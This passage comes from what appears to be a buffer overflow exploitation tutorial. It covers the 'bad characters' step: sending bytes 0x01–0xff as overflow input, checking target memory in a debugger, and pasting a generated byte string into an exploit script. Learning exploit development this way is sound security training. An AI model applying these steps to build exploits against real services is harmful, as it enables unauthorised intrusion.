 ```

# Teardown
printinfo(["Quitting connection."])
s.send('QUIT\r\n')
s.close()
```

Part II: Bad Characters
================================================================================

Use your existing script and modify the input data your script sends to the target program. Replace the first 255 of your As (overflowinput in our example script) with hex bytes for values 0x01 through 0xff. (We omit \x00 since the null byte is a very common bad character anyhow.)

After the buffer overflow is sent to the target application, use the debugger to view your payload (the hexidecimal byte values) in the application's memory space. It takes a minute without mona scripts, but ensure the full string of hex values is present. The
fastest way to do this is with a GUI text editor and some quick formatting. Any missing or modified values indicate a bad character is present in your string. Add it to the bad characters list.

It can pay to remove the bad characters from your string and test for character modification again--sometimes bad characters cause modification to other bytes in memory. You can repeat until every character you send appears in application memory. You now know all the characters you can and cannot use in your payload.

### [1] Generate the possible character string.

```
root@kali:~# vim badchars.py
```

```
#!/usr/bin/python
# Generates all bytes \x01 thru \xff on the command line.

key = bytearray([])  <--------------(Note that is '[' and ']' w/ no space.)
for v in range(1, 256): key.append(v)
print("".join("\\x%02x" % k for k in key))
```

Or, if you're reading this on your attack platform, just copy the below code block, which you can paste into your sploit script if creating your script from scratch.

```
chars  =     "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
chars += "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
chars += "\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
chars += "\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
chars += "\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
chars += "\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
chars += "\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
chars += "\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
chars += "\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
